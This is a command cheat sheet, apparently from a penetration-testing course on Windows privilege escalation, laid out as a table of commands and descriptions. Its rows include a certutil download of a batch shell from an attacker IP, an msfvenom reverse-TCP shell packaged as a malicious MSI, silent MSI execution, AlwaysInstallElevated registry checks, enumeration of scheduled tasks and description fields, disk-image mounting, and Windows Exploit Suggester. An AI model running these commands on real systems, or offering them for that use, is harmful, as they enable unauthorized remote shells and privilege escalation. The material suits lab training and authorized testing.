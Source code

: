| **Command**                                                                                                 | **Description**                                    |
| ----------------------------------------------------------------------------------------------------------- | -------------------------------------------------- |
| `certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat`                               | Transfer file with certutil                        |
| `certutil -encode file1 encodedfile`                                                                        | Encode file with certutil                          |
| `certutil -decode encodedfile file2`                                                                        | Decode file with certutil                          |
| `reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`                                 | Query for always install elevated registry key (1) |
| `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`                                              | Query for always install elevated registry key (2) |
| `msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi`                        | Generate a malicious MSI package                   |
| `msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart`                                     | Executing an MSI package from command line         |
| `schtasks /query /fo LIST /v`                                                                               | Enumerate scheduled tasks                          |
| `Get-ScheduledTask \| select TaskName,State`                                                                | Enumerate scheduled tasks with PowerShell          |
| `.\accesschk64.exe /accepteula -s -d C:\Scripts\`                                                           | Check permissions on a directory                   |
| `Get-LocalUser`                                                                                             | Check local user description field                 |
| `Get-WmiObject -Class Win32_OperatingSystem \| select Description`                                          | Enumerate computer description field               |
| `guestmount -a SQL01-disk1.vmdk -i --ro /mnt/vmd`                                                           | Mount VMDK on Linux                                |
| `guestmount --add WEBSRV10.vhdx --ro /mnt/vhdx/ -m /dev/sda1`                                               | Mount VHD/VHDX on Linux                            |
| `sudo python2.7 windows-exploit-suggester.py --update`                                                      | Update Windows Exploit Suggester database          |
| `python2.7 windows-exploit-suggester.py --database 2021-05-13-mssb.xls --systeminfo win7lpe-systeminfo.txt` | Running Windows Exploit Suggester                  |
|                                                                                                             |                                                    |